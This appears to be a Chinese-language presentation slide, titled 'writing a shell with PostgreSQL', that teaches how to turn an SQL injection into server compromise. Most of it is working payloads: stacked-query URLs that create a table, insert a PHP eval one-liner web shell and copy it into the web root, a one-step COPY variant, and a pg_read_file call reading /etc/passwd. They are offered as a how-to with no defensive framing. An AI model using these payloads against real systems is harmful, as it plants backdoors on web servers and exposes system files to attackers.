

# postgresql写shell
直接拿shell（创建表，写入一句话，将该表复制到网站根目录下更改文件后缀）
http://127.0.0.1/sql.php?id=1;create table shell(shell text not null);
http://127.0.0.1/sql.php?id=1;insert into shell values($$<?php @eval($_POST[cracer]);?>$$);
http://127.0.0.1/sql.php?id=1;copy shell(shell) to '/var/www/html/shell.php';

另一种方法：一步到位,注意是POST传参
;copy (select '$$<?php @eval($_POST[cracer]);?>$$') to E:/web/postgresqlInject/ddd.php'
读取文件前20行
pg_read_file('/etc/passwd',1,20)